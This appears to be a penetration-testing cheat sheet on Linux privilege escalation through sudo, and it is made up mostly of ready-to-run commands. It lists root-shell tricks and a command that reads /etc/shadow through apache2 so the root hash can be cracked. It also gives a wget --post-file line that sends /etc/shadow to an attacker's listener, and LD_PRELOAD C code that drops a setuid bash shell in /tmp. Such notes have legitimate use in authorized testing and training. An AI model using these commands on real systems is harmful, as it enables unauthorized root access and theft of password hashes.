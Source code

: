 Sudo is used to run programs as an another user, by default it's root.

```text
sudo -u <user> <program>
```

You can list programs which can be run without requiring password.

```text
sudo -l
```

Some ways to escalate privileges with unrestricted sudo:

```text
sudo -s
sudo -i
sudo /bin/bash
sudo passwd
```

Shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io/)

### "Intended functionality"

Some program's intended functionality can also help you to escalate privileges. Always google for possible privilege escalations using programs you have access to.

#### apache2 example

When you run apache as a root, you can provide configuration file with a `-f` flag. When a file is not in correct format, apache2 will print first line of a file in error message. We can use this to read first line of a `/etc/shadow` file \(root's hash\) and crack it.

```text
sudo apache2 -f /etc/shadow
```

#### wget example

Wget command can not only download files, but also post files to webserver.

You can setup netcat listener on your machine and then by running this command on target machine, will send `/etc/shadow` your way.

```text
sudo wget --post-file=/etc/shadow <LHOST>:<LPORT>
```

### LD\_PRELOAD

When LD\_PRELOAD enviroment variable is set and you run the executable, ld will first run specified library and only after that will execute original program. 

Firstly we create source code file for a shared object.

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("cp /bin/bash /tmp/yz && chmod +s /tmp/yz && /tmp/yz -p");
}
```
